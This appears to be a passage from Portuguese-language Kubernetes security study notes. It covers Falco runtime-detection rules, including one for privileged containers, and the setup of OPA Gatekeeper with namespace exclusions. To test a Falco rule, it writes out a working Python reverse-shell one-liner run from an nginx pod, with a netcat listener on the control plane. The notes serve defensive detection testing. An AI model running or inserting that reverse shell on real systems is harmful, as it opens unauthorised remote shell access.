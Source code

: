 
***Testando a regra:***
```

Node: Nginx

kubectl exec -it nginx -- bash
apt install python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP do Control Plane",32000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'



Control Plane:
nc  -l 32000
```

***Segunda regra: container privilegiado***
```
- rule: Launch Privileged Container
  desc: Detect the initial process started in a privileged container. Exceptions are made for known trusted images.
  condition: >
    container_started and container
    and container.privileged=true
    and not falco_privileged_containers
    and not user_privileged_containers
  output: container privilegiado aqui se liga (user=%user.name user_loginuid=%user.loginuid command=%proc.cmdline %container.info image=%container.image.repository:%container.image.tag)
  priority: WARNING
  tags: [container, cis, mitre_privilege_escalation, mitre_lateral_movement]
```



OPA:
---

https://open-policy-agent.github.io/gatekeeper/website/docs/install/

https://play.openpolicyagent.org/

***Deploy:***
```
kubectl apply -f https://raw.githubusercontent.com/open-policy-agent/gatekeeper/release-3.5/deploy/gatekeeper.yaml
```

***Exclud NS***
```
cat > excludns.yaml <<EOF
apiVersion: config.gatekeeper.sh/v1alpha1
kind: Config
metadata:
  name: config
  namespace: "gatekeeper-system"
spec:
  match:
    - excludedNamespaces: ["kube-system", "gatekeeper-system"]
      processes: ["*"]
EOF
```
